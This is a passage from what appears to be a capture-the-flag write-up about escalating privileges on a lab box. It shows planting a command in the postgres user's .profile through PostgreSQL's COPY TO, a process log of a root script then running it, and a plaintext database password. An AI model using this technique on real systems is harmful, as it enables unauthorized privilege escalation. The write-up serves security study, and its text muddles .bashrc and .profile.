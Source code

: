 I need a way to write to the `.bashrc` file in the postgres user’s home directory. The home directory is `/var/lib/postgresql`. I can’t write there directly as wesley:

```

wesley@download:~$ echo -e "\n\npython /dev/shm/poc.py\n" >> /var/lib/postgresql/.profile
-bash: /var/lib/postgresql/.bashrc: Permission denied

```

I’ll have to write from the database. I’ll connect with the password “CoconutPineappleWatermelon”:

```

wesley@download:~$ psql -h 127.0.0.1 -U download download
Password for user download: 
psql (12.15 (Ubuntu 12.15-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

download=> 

```

I’ll use the `COPY` command to write to the `.bashrc`:

```

download=> COPY (select 'python3 /dev/shm/poc.py') TO '/var/lib/postgresql/.profile';
COPY 1

```

It works:

```

wesley@download:~$ cat /var/lib/postgresql/.profile 
python3 /dev/shm/poc.py

```

#### Execution

The next time the bot cycles and tries to run, it calls `manage-db` as root, and then drops to UID 113 (postgres). But then it doesn’t call `psql`, rather just doing some `bash` calls and then returning to root:

```

2023/11/08 11:10:57 CMD: UID=0     PID=67907  | systemctl status postgresql 
2023/11/08 11:10:57 CMD: UID=0     PID=67908  | /bin/bash -i ./manage-db 
2023/11/08 11:10:57 CMD: UID=0     PID=67909  | /bin/bash -i ./manage-db 
2023/11/08 11:10:57 CMD: UID=113   PID=67910  | -bash 
2023/11/08 11:10:57 CMD: UID=113   PID=67911  | 
2023/11/08 11:10:57 CMD: UID=113   PID=67912  | -bash 
2023/11/08 11:10:57 CMD: UID=113   PID=67914  | -bash 
2023/11/08 11:10:57 CMD: UID=113   PID=67915  | 
2023/11/08 11:10:57 CMD: UID=0     PID=67916  | -bash 
2023/11/08 11:11:02 CMD: UID=0     PID=67919  | /usr/bin/perl /usr/bin/psql 

```
